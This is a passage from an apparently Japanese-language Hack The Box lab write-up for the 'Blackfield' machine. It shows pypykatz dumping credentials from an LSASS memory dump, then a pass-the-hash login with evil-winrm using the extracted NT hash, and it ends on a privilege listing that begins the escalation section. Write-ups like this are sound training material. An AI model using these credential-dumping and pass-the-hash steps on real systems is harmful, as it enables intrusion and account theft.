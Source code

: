 `pypykatz`で中身を読み出す：

```
┌──(shoebill㉿shoebill)-[~/Blackfield_10.10.10.192]
└─$ pypykatz lsa minidump lsass.DMP
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
...
```

このNTハッシュを使ってsvc_backupのシェルを得る：

```
┌──(shoebill㉿shoebill)-[~/Blackfield_10.10.10.192/Lsass]
└─$ evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d             

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup
```

# Privesc

```
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
